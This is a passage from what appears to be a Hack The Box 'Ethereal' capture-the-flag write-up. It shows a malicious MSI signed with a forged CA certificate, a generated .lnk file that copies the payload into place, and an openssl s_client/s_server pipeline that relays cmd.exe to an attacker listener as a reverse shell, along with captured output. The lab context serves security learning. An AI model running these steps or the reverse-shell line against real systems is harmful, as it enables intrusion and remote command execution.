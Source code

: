 Once again we need to use the pvk2pfx tool to generate our own pfx file now, signed by the servers CA certificate:
```
C:\Program Files (x86)\Windows Kits\10\bin\10.0.17763.0\x86>pvk2pfx.exe /pvk C:\htb\Ethereal\Thoseguys.pvk /spc C:\htb\Ethereal\Thoseguys.cer /pfx C:\htb\Ethereal\Thoseguys.pfx
```

Once this all runs, we have a directory that looks something like:
```
C:\htb\Ethereal> dir
Directory of C:\htb\Ethereal

08/03/2019  09:40 AM               772 MyCA.cer
08/03/2019  09:47 AM             2,566 MyCA.pfx
08/03/2019  09:40 AM             1,196 MyCA.pvk
08/03/2019  10:05 AM               764 Thoseguys.cer
08/03/2019  10:20 AM             2,558 Thoseguys.pfx
08/03/2019  10:05 AM             1,196 Thoseguys.pvk
```

Then we sign the MSI:
```
C:\Program Files (x86)\Windows Kits\10\bin\10.0.17763.0\x86>signtool.exe sign /f C:\htb\Ethereal\Thoseguys.pfx C:\htb\Ethereal\thoseguysdir.msi
Done Adding Additional Store
Successfully signed: C:\htb\Ethereal\thoseguysdir.msi
```

Looking back at Rupal's note, it states that he will be looking in the current directory that the notes.txt file is in (D:\dev\msis) so we need to create another lnk to copy our MSI there.
```
python generate.py --host localhost --type ntlm --output thoseguysdir.lnk --execute 'copy /Y "C:\users\public\desktop\shortcuts\thoseguysdir.msi" "D:\dev\msis\thoseguysdir.msi"'

Terminal1: openssl s_server -quiet -key key.pem -cert cert.pem -port 73 
Terminal2: openssl s_server -quiet -key key.pem -cert cert.pem -port 136 < thoseguysdir.lnk
|| "C:\Program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.14.22:73 | cmd.exe | "C:\Program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.14.22:136 > "c:\users\public\desktop\shortcuts\thoseguysdir.lnk"
```

Next copy the file onto the target as well as a .lnk to copy that msi into the D:\dev\msis folder. Finally copy the lnk over the top of the Visual Studio lnk and wait.

We finally get something that executes a command!:
![231899226.png]({{site.baseurl}}/Images/Ethereal/231899226.png)

Looking at the results we can see the folders in the C:\users.
```
root@kali: openssl s_server -quiet -key key.pem -cert cert.pem -port 136
Microsoft Windows [Version 10.0.14393]  
(c) 2016 Microsoft Corporation. All rights reserved.
                                                    
c:\windows\system32\inetsrv>type c:\users\public\desktop\shortcuts\msiresult.txt
 Volume in drive C has no label.              
 Volume Serial Number is FAD9-1FD5                
                                              
 Directory of C:\users                          
                                                
05/07/2018  09:38    <DIR>          .            
05/07/2018  09:38    <DIR>          ..           
26/06/2018  05:57    <DIR>          .NET v4.5       
26/06/2018  05:57    <DIR>          .NET v4.5 Classic
30/06/2018  21:07    <DIR>          Administrator            
10/10/2018  13:52    <DIR>          alan     
07/07/2018  23:46    <DIR>          jorge         
07/07/2018  22:25    <DIR>          Public
```